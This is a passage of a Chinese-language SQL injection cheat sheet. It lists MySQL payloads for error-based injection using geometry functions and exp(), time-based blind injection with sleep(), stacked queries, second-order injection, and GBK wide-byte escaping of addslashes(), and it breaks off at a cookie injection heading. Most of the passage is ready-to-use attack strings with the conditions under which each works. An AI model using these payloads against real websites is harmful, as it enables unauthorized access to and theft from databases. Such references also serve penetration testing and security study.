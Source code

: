 ```
id=1 and multipolygon((select * from(select * from(select user())a)b))
```

#### 8 linestring()

```
id=1 and linestring((select * from(select * from(select user())a)b))
```

#### 9 multilinestring()

```
id=1 and multilinestring((select * from(select * from(select user())a)b))
```

#### 10 exp()

```
id=1 and exp(~(select * from(select user())a))
```

### 时间注入

```
id = 1 and if(length(database())>1,sleep(5),1)
```

### 堆叠查询注入

```
id = 1';select if(sub(user(),1,1)='r',sleep(3),1)%23
```

### 二次注入

假如在如下场景中，我们浏览一些网站的时候，可以现在注册见页面注册username=test'，接下来访问xxx.php?username=test'，页面返回id=22；

接下来再次发起请求xxx.php?id=22，这时候就有可能发生sql注入，比如页面会返回MySQL的错误。

访问xxx.php?id=test' union select 1,user(),3%23，获得新的id=40，得到user()的结果，利用这种注入方式会得到数据库中的值。

### 宽字节注入

#### 利用条件：

- [ ] 查询参数是被单引号包围的，传入的单引号又被转义符()转义，如在后台数据库中对接受的参数使用addslashes()或其过滤函数
- [ ] 数据库的编码为GBK

#### 利用方式

```
id = -1%DF' union select 1,user(),3,%23
```

在上述条件下，单引号'被转义为%5c，所以就构成了%df%5c，而在GBK编码方式下，%df%5c是一个繁体字“連”，所以单引号成功逃逸。

### Cookie注入
